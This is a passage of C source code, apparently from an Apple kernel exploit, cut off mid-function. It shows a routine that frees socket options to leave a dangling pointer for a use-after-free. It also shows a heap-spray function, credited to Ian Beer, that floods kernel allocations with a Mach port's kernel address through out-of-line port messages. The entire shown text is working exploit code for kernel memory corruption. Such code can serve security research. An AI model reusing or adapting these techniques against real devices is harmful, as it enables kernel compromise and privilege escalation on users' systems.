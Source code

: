 ```c

// return a socket ready for UAF
int get_socket_with_dangling_options() {
    int socket = get_socket();
    
    int minmtu = -1;
    set_minmtu(socket, &minmtu);
    
    free_socket_options(socket);
    
    return socket;
}

// from Ian Beer. make a kernel allocation with the kernel address of 'target_port', 'count' times
mach_port_t fill_kalloc_with_port_pointer(mach_port_t target_port, int count, int disposition) {
    mach_port_t q = MACH_PORT_NULL;
    kern_return_t err;
    err = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &q);
    if (err != KERN_SUCCESS) {
        printf("[-] failed to allocate port\n");
        return 0;
    }
    
    mach_port_t* ports = malloc(sizeof(mach_port_t) * count);
    for (int i = 0; i < count; i++) {
        ports[i] = target_port;
    }
    
    struct ool_msg* msg = (struct ool_msg*)calloc(1, sizeof(struct ool_msg));
    
    msg->hdr.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = (mach_msg_size_t)sizeof(struct ool_msg);
    msg->hdr.msgh_remote_port = q;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_id = 0x41414141;
    
    msg->body.msgh_descriptor_count = 1;
    
    msg->ool_ports.address = ports;
    msg->ool_ports.count = count;
    msg->ool_ports.deallocate = 0;
    msg->ool_ports.disposition = disposition;
    msg->ool_ports.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    msg->ool_ports.copy = MACH_MSG_PHYSICAL_COPY;
    
    err = mach_msg(&msg->hdr,
                   MACH_SEND_MSG|MACH_MSG_OPTION_NONE,
                   msg->hdr.msgh_size,
                   0,
                   MACH_PORT_NULL,
                   MACH_MSG_TIMEOUT_NONE,
                   MACH_PORT_NULL);
    
    if (err != KERN_SUCCESS) {
        printf("[-] failed to send message: %s\n", mach_error_string(err));
        return MACH_PORT_NULL;
    }
    
    return q;
}

int get_minmtu(int sock, int *minmtu) {
    socklen_t size = sizeof(*minmtu);
```